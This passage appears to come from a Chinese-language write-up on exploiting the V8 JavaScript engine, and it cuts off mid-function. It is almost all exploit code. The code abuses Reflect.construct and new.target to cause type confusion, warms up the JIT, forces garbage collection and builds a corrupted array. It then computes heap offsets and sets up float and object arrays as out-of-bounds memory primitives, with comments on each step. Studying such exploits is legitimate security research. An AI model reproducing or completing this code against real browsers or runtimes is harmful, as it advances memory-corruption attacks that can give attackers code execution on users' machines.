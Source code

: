 现在的js:

```js
class A {}

var x = Array;

class B extends A {
  constructor() {
    x = new.target; 
    super();
  }
}

function construct() {
  var r = Reflect.construct(B, [], x);
  return r;
}

for (let i = 0; i < 2000; i++) {
    construct(); //多次分配，让JIT形成优化路径
}

var gcSize = 0x4fe00000;
new ArrayBuffer(gcSize);
new ArrayBuffer(gcSize);
//垃圾回收

//创建类型混淆的Array
var corruptedArr = construct();
corruptedArr = construct();
corruptedArr = construct();
%DebugPrint(corruptedArr);
console.log("--------------------------------------------");
//corruptedArr elements: 0x014300000219 <FixedArray[0]> [PACKED_SMI_ELEMENTS] 有符号整数
var emptyAddr = 0x219;

function getOffset(addr) {
    return (addr - emptyAddr) / 4 - 2;
}
function indexToAddr(idx) {
    return (idx + 2) * 4 + emptyAddr;
}

//corruptedArr: DebugPrint: 0000023F00042179: [JSArray]
var arrAddr = 0x42179;


//设置固定数组，以便于后续根据数据内容查找数组地址
var oobDblArr = [0x41, 0x42, 0x51, 0x52, 1.5];
//第0格：0x41 → 65.0 → 0x4050400000000000 → 00 00 00 00  40 50 40 00 
//第1格：0x42 → 66.0 → 0x4050800000000000 → 00 00 00 00  40 50 80 00
//第2格：0x51 → 81.0 → 0x4054400000000000 → 00 00 00 00  40 54 40 00
//第3格：0x52 → 82.0 → 0x4054800000000000 → 00 00 00 00  40 54 80 00
//第4格：1.5 → 1.5 →   0x3ff8000000000000 → 00 00 00 00  3F F8 00 00
var oobDblArr2 = [0x41, 0x42, 1.5];

var view = new ArrayBuffer(24);
var oobObjArr = [view, 0x424242, 0x434343, 0x434343];
oobObjArr[0] = 0x414141;



function searchDblArrIndex(startAddr, corruptedArr, limit) {
```